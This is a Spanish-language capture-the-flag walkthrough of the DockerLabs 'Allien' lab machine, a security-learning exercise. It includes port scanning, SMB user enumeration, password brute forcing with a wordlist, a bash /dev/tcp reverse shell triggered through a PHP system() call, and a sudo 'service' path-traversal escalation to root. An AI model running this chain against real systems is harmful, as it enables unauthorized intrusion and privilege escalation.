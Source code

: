 # allien

Máquina "Allien" de [DockerLabs](../../../maquina-allien/https;/dockerlabs.es)

Autor: [Luisillo\_o](https://www.youtube.com/@Luisillo_o)

Dificultad: Fácil

![allien](../../../maquina-allien/img/allien.png)

## Reconocimiento

Comenzamos con un escaneo de nmap:

```css
nmap -sSVC -p- -Pn --open --min-rate 5000 -n -vvv 172.17.0.2 -oN escaneo.txt 
```

```ruby
# Nmap 7.95 scan initiated Sat Oct 12 22:41:23 2024 as: nmap -sSVC -p- -Pn --open --min-rate 5000 -n -vvv -oN escaneo.txt 172.17.0.2
Nmap scan report for 172.17.0.2
Host is up, received arp-response (0.000013s latency).
Scanned at 2024-10-12 22:41:23 -03 for 13s
Not shown: 65531 closed tcp ports (reset)
PORT    STATE SERVICE     REASON         VERSION
22/tcp  open  ssh         syn-ack ttl 64 OpenSSH 9.6p1 Ubuntu 3ubuntu13.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 43:a1:09:2d:be:05:58:1b:01:20:d7:d0:d8:0d:7b:a6 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBGrGDto+yIluWWc28CO9WLop39MgTQepDrYpDWvwqPgqpC2Ea8ZtGQCObWL21GlJITWAdFSZS0HaWuo1Wl9nZ84=
|   256 cd:98:0b:8a:0b:f9:f5:43:e4:44:5d:33:2f:08:2e:ce (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAICk8CRYpvJnqRBsGb/f/ZxXJoTikc4EQdeCBsvENuMwD
80/tcp  open  http        syn-ack ttl 64 Apache httpd 2.4.58 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Login
|_http-server-header: Apache/2.4.58 (Ubuntu)
139/tcp open  netbios-ssn syn-ack ttl 64 Samba smbd 4
445/tcp open  netbios-ssn syn-ack ttl 64 Samba smbd 4
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: 0s
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 21783/tcp): CLEAN (Couldn't connect)
|   Check 2 (port 41501/tcp): CLEAN (Couldn't connect)
|   Check 3 (port 58197/udp): CLEAN (Failed to receive data)
|   Check 4 (port 51735/udp): CLEAN (Failed to receive data)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| nbstat: NetBIOS name: SAMBASERVER, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| Names:
|   SAMBASERVER<00>      Flags: <unique><active>
|   SAMBASERVER<03>      Flags: <unique><active>
|   SAMBASERVER<20>      Flags: <unique><active>
|   \x01\x02__MSBROWSE__\x02<01>  Flags: <group><active>
|   ESEEMEB.DL<00>       Flags: <group><active>
|   ESEEMEB.DL<1d>       Flags: <unique><active>
|   ESEEMEB.DL<1e>       Flags: <group><active>
| Statistics:
|   00:00:00:00:00:00:00:00:00:00:00:00:00:00:00:00:00
|   00:00:00:00:00:00:00:00:00:00:00:00:00:00:00:00:00
|_  00:00:00:00:00:00:00:00:00:00:00:00:00:00
| smb2-time: 
|   date: 2024-10-13T01:41:36
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Oct 12 22:41:36 2024 -- 1 IP address (1 host up) scanned in 13.74 seconds
```

Al parecer tenemos lo siguiente:

`Una web(puerto 80)`

`OpenSSH(puerto 22)`

`SMB/samba(puerto 139 y 445)`

Si vamos a la web no se ve nada interesante, por lo que no la voy a mostrar xD.

Ahora podemos hacer lo siguiente para intentar enumerar usuarios de la máquina victima usando `rpcclient`:

![rpcclient](../../../maquina-allien/img/rpcclient.png)

Como vemos tenemos varios usuarios:

usuario1

usuario3

administrador

usuario2

satriani7

Ahora que tenemos usuarios, vamos a intentar hacer fuerza bruta con `netexec`:

```css
sudo netexec smb 172.17.0.2 -u 'satriani7' -p /opt/rockyou.txt --ignore-pw-decoding
```

![smb](../../../maquina-allien/img/smb.png)

Como vemos, podemos acceder al smb con la contraseña "50cent" y el usuario "satriani7".

Ahora usaremos `smbmap` para saber que ficheros tiene el smb y ver que podemos hacer:

```css
smbmap -u 'satriani7' -p '50cent' -H 172.17.0.2
```

```css
    ________  ___      ___  _______   ___      ___       __         _______
   /"       )|"  \    /"  ||   _  "\ |"  \    /"  |     /""\       |   __ "\
  (:   \___/  \   \  //   |(. |_)  :) \   \  //   |    /    \      (. |__) :)
   \___  \    /\  \/.    ||:     \/   /\   \/.    |   /' /\  \     |:  ____/
    __/  \   |: \.        |(|  _  \  |: \.        |  //  __'  \    (|  /
   /" \   :) |.  \    /:  ||: |_)  :)|.  \    /:  | /   /  \   \  /|__/ \
  (_______/  |___|\__/|___|(_______/ |___|\__/|___|(___/    \___)(_______)
-----------------------------------------------------------------------------
SMBMap - Samba Share Enumerator v1.10.5 | Shawn Evans - ShawnDEvans@gmail.com
                     https://github.com/ShawnDEvans/smbmap

[*] Detected 1 hosts serving SMB                                                                                                  
[*] Established 1 SMB connections(s) and 1 authenticated session(s)                                                          
                                                                                                                             
[+] IP: 172.17.0.2:445	Name: 172.17.0.2          	Status: Authenticated
	Disk                                                  	Permissions	Comment
	----                                                  	-----------	-------
	myshare                                           	READ ONLY	Carpeta compartida sin restricciones
	backup24                                          	READ ONLY	Privado
	home                                              	NO ACCESS	Produccion
	IPC$                                              	NO ACCESS	IPC Service (EseEmeB Samba Server)
[*] Closed 1 connections
```

Tenemos dos carpetas útiles:

myshare

backup24

Sabiendo esto, nos conectaremos con `smbclient` de la siguiente manera:

```css
smbclient //172.17.0.2/backup24 -U 'satriani7%50cent'
```

Ahora que estamos dentro, si vamos a "\Documents\Personal" veremos un archivo llamado "credentials.txt", este nos lo guardaremos con el comando `get credentials.txt`. Una vez hecho esto, veremos que dentro de ese archivo se encuentra la contraseña del usuario "administrador".

## INTRUSION

Simplemente nos conectaremos con `ssh` utilizando las credenciales que encontramos.

## ESCALADA DE PRIVILEGIOS

#### Administrador

Luego de buscar un rato, no se encuentra nada interesante, pero si pruebo en buscar los directorios o archivos que me pertenezcan con `find`, encuentro lo siguiente:

```css
find / -user administrador 2>/dev/null
```

```
/var/www/html
/var/www/html/info.php
```

Sabiendo esto, podemos intentar crear un archivo que nos permita pasar al usuario "www-data", para hacerlo solo haremos lo siguiente:

Primero crearemos un archivo con lo siguiente dentro de "/var/www/html":

```css
#!/bin/bash
bash -i >& /dev/tcp/127.0.0.1/443 0>&1
```

A este lo guardamos como "shell.sh" y le damos permisos con `chmod +x shell.sh`, luego creamos un archivo ".php" con lo siguiente:

```css
<?php
system('./shell.sh')
?>
```

Ahora solo nos queda escuchar con netcat en el puerto 443 en la máquina victima y entrar desde el navegador al archivo php:

```css
nc -nlvp 443
```

#### www-data

Ahora haremos un tratamiento de la tty: [Como hacerlo?](broken-reference)

Luego, si ejecutamos `sudo -l` vermos lo siguiente:

```css
www-data@e03c24d1c06b:/var/www/html$ sudo -l
Matching Defaults entries for www-data on e03c24d1c06b:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User www-data may run the following commands on e03c24d1c06b:
    (ALL) NOPASSWD: /usr/sbin/service
www-data@e03c24d1c06b:/var/www/html$   
```

Si nos fijamos en GTFOBins veremos que podemos escalar ejecutando lo siguiente:

```css
sudo service ../../../../bin/bash
```

(Agrega "../" dependiendo de en que directorio te encuentres, pero normalmente con eso basta)

#### Root

![root](../../../maquina-allien/img/root.png)

Gracias por leer....
